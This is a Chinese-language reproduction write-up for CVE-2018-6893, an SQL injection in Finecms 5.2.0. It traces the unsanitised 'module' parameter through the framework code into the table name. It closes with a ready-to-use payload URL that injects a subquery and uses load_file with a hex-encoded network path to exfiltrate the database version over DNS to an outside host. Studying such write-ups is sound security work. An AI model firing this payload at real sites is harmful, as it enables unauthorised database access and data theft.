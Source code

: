 （CVE-2018-6893）Finecms 5.2.0 SQL注入漏洞
==========================================

一、漏洞简介
------------

Finecms
5.2.0版本中的`controllers/member/Api.php`文件存在SQL注入漏洞，该漏洞源于程序没有进行有效的过滤。远程攻击者可利用该漏洞执行SQL命令。

二、漏洞影响
------------

Finecms 5.2.0

三、复现过程
------------

漏洞位置在：

finecms/dayrui/controllers/member/Api.php 590行左右

    public function checktitle() {
        $id = (int)$this->input->get('id');
        $title = $this->input->get('title', TRUE);
        $module = $this->input->get('module');
        (!$title || !$module) && exit('');
        $num = $this->db->where('id<>', $id)->where('title', $title)->count_all_results(SITE_ID.'_'.$module);
        $num ? exit(fc_lang('<font color=red>'.fc_lang('重复').'</font>')) : exit('');
    }

可以看到方法count\_all\_results()使用了\$module,count\_all\_results()方法如下：

    public function count_all_results($table = '', $reset = TRUE)
        {
            if ($table !== '')
            {
                $this->_track_aliases($table);
                $this->from($table);
            }

            // ORDER BY usage is often problematic here (most notably
            // on Microsoft SQL Server) and ultimately unnecessary
            // for selecting COUNT(*) ...
            if ( ! empty($this->qb_orderby))
            {
                $orderby = $this->qb_orderby;
                $this->qb_orderby = NULL;
            }

            $result = ($this->qb_distinct === TRUE OR ! empty($this->qb_groupby) OR ! empty($this->qb_cache_groupby) OR $this->qb_limit OR $this->qb_offset)
                ? $this->query($this->_count_string.$this->protect_identifiers('numrows')."\nFROM (\n".$this->_compile_select()."\n) CI_count_all_results")
                : $this->query($this->_compile_select($this->_count_string.$this->protect_identifiers('numrows')));

            if ($reset === TRUE)
            {
                $this->_reset_select();
            }
            // If we've previously reset the qb_orderby values, get them back
            elseif ( ! isset($this->qb_orderby))
            {
                $this->qb_orderby = $orderby;
            }

            if ($result->num_rows() === 0)
            {
                return 0;
            }

            $row = $result->row();
            return (int) $row->numrows;
        }

可以看到对传入的table参数进行了是否为空校验以及经过两个函数的处理，再跟进\_track\_aliases函数继续进行分析：

    protected function _track_aliases($table)
        {
            if (is_array($table))
            {
                foreach ($table as $t)
                {
                    $this->_track_aliases($t);
                }
                return;
            }

            // Does the string contain a comma?  If so, we need to separate
            // the string into discreet statements
            if (strpos($table, ',') !== FALSE)
            {
                return $this->_track_aliases(explode(',', $table));
            }

            // if a table alias is used we can recognize it by a space
            if (strpos($table, ' ') !== FALSE)
            {
                // if the alias is written with the AS keyword, remove it
                $table = preg_replace('/\s+AS\s+/i', ' ', $table);

                // Grab the alias
                $table = trim(strrchr($table, ' '));

                // Store the alias, if it doesn't already exist
                if ( ! in_array($table, $this->qb_aliased_tables, TRUE))
                {
                    $this->qb_aliased_tables[] = $table;
                    if ($this->qb_caching === TRUE && ! in_array($table, $this->qb_cache_aliased_tables, TRUE))
                    {
                        $this->qb_cache_aliased_tables[] = $table;
                        $this->qb_cache_exists[] = 'aliased_tables';
                    }
                }
            }
        }

可以看到table在这个函数中经过了较多过滤，继续看下一个函数from：

    public function from($from)
        {
            foreach ((array) $from as $val)
            {
                if (strpos($val, ',') !== FALSE)
                {
                    foreach (explode(',', $val) as $v)
                    {
                        $v = trim($v);
                        $this->_track_aliases($v);
                        $this->qb_from[] = $v = $this->protect_identifiers($v, TRUE, NULL, FALSE);
                        if ($this->qb_caching === TRUE)
                        {
                            $this->qb_cache_from[] = $v;
                            $this->qb_cache_exists[] = 'from';
                        }
                    }
                }
                else
                {
                    $val = trim($val);
                    // Extract any aliases that might exist. We use this information
                    // in the protect_identifiers to know whether to add a table prefix
                    $this->_track_aliases($val);
                    $this->qb_from[] = $val = $this->protect_identifiers($val, TRUE, NULL, FALSE);
                    if ($this->qb_caching === TRUE)
                    {
                        $this->qb_cache_from[] = $val;
                        $this->qb_cache_exists[] = 'from';
                    }
                }
            }
            return $this;
        }

可以看到经过这两个函数以及finecms本身get方法的过滤，能用的符号不多了，但是括号以及逗号都还能使用。

在测试的时候，如果传入的参数比如：module=1，则会爆表不存在的错误，并且可以看到查询的语句，而module参数位于from位置，也就是查询的表的位置，于是使用逗号分割查询的表，并使用dns外带数据

payload如下

    http://0-sec.org/index.php?s=member&c=api&m=checktitle&id=13&title=123&module=news,(select load_file(concat(0x5c5c5c5c,version(),0x2e6d7973716c2e61687a6935672e636579652e696f5c5c616263))) as total
